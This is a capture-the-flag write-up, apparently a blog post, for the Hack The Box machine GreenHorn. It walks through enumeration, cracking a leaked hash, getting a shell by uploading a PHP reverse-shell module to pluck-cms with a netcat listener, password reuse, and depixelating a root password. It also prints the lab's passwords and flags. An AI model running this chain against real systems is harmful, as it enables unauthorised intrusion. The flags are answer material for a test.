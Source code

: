 ```yaml
---
layout: post
title: "HTB Linux Easy: GreenHorn"
description: "GreenHorn is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```



## Nmap Scan
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -sS -p22,80,3000 10.129.192.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-21 03:18 EDT
Nmap scan report for 10.129.192.3
Host is up (0.017s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=1ee532665089bb0f; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=DUGsxkCFwrutsQVBgYT_VsX1rsk6MTcyMTU0NjI4ODA2ODM5MDQwNA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 21 Jul 2024 07:18:08 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=ac14f28e6f9f8419; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=Aa_QlcVDwfWBdoCRZnkAuYPccfE6MTcyMTU0NjI5MzIxNjY5NDExNQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 21 Jul 2024 07:18:13 GMT
|_    Content-Length: 0

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.86 seconds

```

Modify the hosts file:
```
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.129.192.3 greenhorn.htb
```


### Enumerate HTTP (Port 3000)
Gitea version `1.21.11` is running on the server. 
![Pasted image 20240721092244.png](/images/Pasted image 20240721092244.png){: .normal }

We find the following repo when we click on "Explore".
![Pasted image 20240721092731.png](/images/Pasted image 20240721092731.png){: .normal }

From the "CHANGES" file we can assume that the pluck-cms version is 4.7.3.
![Pasted image 20240721093400.png](/images/Pasted image 20240721093400.png){: .normal }

Found password hash:
![Pasted image 20240721093823.png](/images/Pasted image 20240721093823.png){: .normal }

We are able to crack the hash using crackstation.net.
![Pasted image 20240721093733.png](/images/Pasted image 20240721093733.png){: .normal }


### Enumerate HTTP (Port 80)
At the bottom of the landing page we see that pluck-cms is being used:
![Pasted image 20240721092040.png](/images/Pasted image 20240721092040.png){: .normal }

Go to the login page and use the previously found password:
![Pasted image 20240721093947.png](/images/Pasted image 20240721093947.png){: .normal }

We are now logged in:
![Pasted image 20240721094043.png](/images/Pasted image 20240721094043.png){: .normal }

Create a ZIP file containing a php reverse shell:
- [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- [Exploit](https://www.youtube.com/watch?v=GpL_rz8jgro)

On the following page we can install the module (ZIP file we created).
![Pasted image 20240721100318.png](/images/Pasted image 20240721100318.png){: .normal }

Shell as www-data:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.15.32] from (UNKNOWN) [10.129.192.3] 59912
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 08:03:25 up 11:11,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Lateral movement
Found `junior` user in `/etc/passwd`. Since we still have the `iloveyou1` password we can try to switch to the `junior` user:
```
www-data@greenhorn:~$ su junior
Password: 
junior@greenhorn:/var/www$ id
uid=1000(junior) gid=1000(junior) groups=1000(junior)
```

User.txt: `018749bc7be97c01e89d4b42004c6f22`
```
junior@greenhorn:~$ cat user.txt 
018749bc7be97c01e89d4b42004c6f22
```


### Privilege Escalation
Found OpenVAS in junior's home directory:
```
junior@greenhorn:~$ ls
user.txt  'Using OpenVAS.pdf'
```

```
Hello junior,
We have recently installed OpenVAS on our server to actively monitor and identify potential security vulnerabilities. Currently, only the root user, represented by myself, has the authorization to execute OpenVAS using the following command:

`sudo /usr/sbin/openvas`

Enter password:

As part of your familiarization with this tool, we encourage you to learn how to use OpenVAS
effectively. In the future, you will also have the capability to run OpenVAS by entering the same command and providing your password when prompted.

Feel free to reach out if you have any questions or need further assistance.

Have a great week,
Mr. Green
```

Retrieve blurred out password from PDF using following github project: [Link](https://github.com/spipm/Depix)
```
python3 depix.py -p /home/giiker/Downloads/test.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
```
![Pasted image 20240721161656.png](/images/Pasted image 20240721161656.png){: .normal }


SSH as the root user using the password:
```
ssh root@10.129.164.35

PW: sidefromsidetheothersidesidefromsidetheotherside
```

Root.txt: `bcc4e3fd8f79a59d285963f279914617` 
```
root@greenhorn:~# cat root.txt 
bcc4e3fd8f79a59d285963f279914617
```

PWNED!!!
![Pasted image 20240721161528.png](/images/Pasted image 20240721161528.png){: .normal }